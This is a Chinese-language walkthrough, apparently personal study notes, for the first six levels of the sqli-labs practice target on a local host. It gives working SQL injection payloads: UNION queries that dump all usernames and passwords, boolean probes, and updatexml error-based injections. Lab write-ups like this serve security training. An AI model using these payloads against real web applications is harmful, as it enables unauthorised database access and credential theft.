 ### 安装配置

网上资料很多，自行安装即可！

我这边 phpstudy 注册的靶场域名是 `sqli:10001`

<br>

### Less-1 基于单引号字符型注入

#### 前期探测

我们先为 id 传入一个 1，发现可以正常的获取数据  
`http://sqli:10001/Less-1/?id=1`

![](../imgs/target/sqli/s11.png)

但是传入 0 时发现什么都没有！证明该数据表 id 列的最小边界值为 1  
`http://sqli:10001/Less-1/?id=0`

<br>

union 联合查询有一个特性，就是前后列数不一致时会返回报错信息，我们可以根据该报错信息来调整查询列数直到正好碰上正确的列数！

这里为了方便我们直接去看原始数据库，发现 users 表内仅有 3 列，故 union 查询时也需要 3 列！

![](../imgs/target/sqli/s12.png)

<br>

#### union

查询当前数据库名称：

1. 由于 union 会拼接前后查询结果，故令前面的 id=0 使得查询不出结果，就只能显示后面的结果了
2. 注意两次查询的列数一致性！
3. database()是获取当前数据库名称的一个方法
4. --+不多说，注释掉后面的所有代码

`http://sqli:10001/Less-1/?id=0' union select 1,2,database() --+`

![](../imgs/target/sqli/s13.png)

<br>

查询 users 表下的所有用户名及其密码：

1. `group_concat(username)` 表示将 users 表中的列 username 下的所有数据压缩成一行来显示
2. `group_concat(password)` 作用同上
3. `from users` 注意我们要提取的表名称！

`http://sqli:10001/Less-1/?id=0' union select 1,group_concat(username),group_concat(password) from users --+`

![](../imgs/target/sqli/s14.png)

<br>

concat_ws 的使用  
语法：concat_ws(spet,str1,str2)，spet 为分隔符，使用 16 进制表示，str1 和 str2 就是相互连接的两个字符串

`http://sqli:10001/Less-1/?id=0' union select 1,(select group_concat(concat_ws(0x7e,username,password))from users),3 --+`

<br>

### Less-2 基于错误的整型注入

即 `id=1 and 1=1 --+`

<br>

### Less-3 基于错误的单引号变形字符型注入

即 `id=1') and 1=1 --+`

<br>

### Less-4 基于错误的双引号变形字符型注入

即 `id=1") and 1=1 --+`

<br>

### Less-5 基于单引号字符型的错误回显注入

> 基于 updatexml 函数的解释，请看我的另一篇文章 QWQ

通关密钥：`id=1' union select updatexml(666,concat('~',(select user())),'good luck') -- zhiyiyi`

<br>

### Less-6 基于双引号字符型的错误回显注入

通关密钥：`http://sqli:10001/Less-6/?id=1" union select updatexml(666,concat('~',(select database())),'good luck') -- zhiyiyi`

<br>
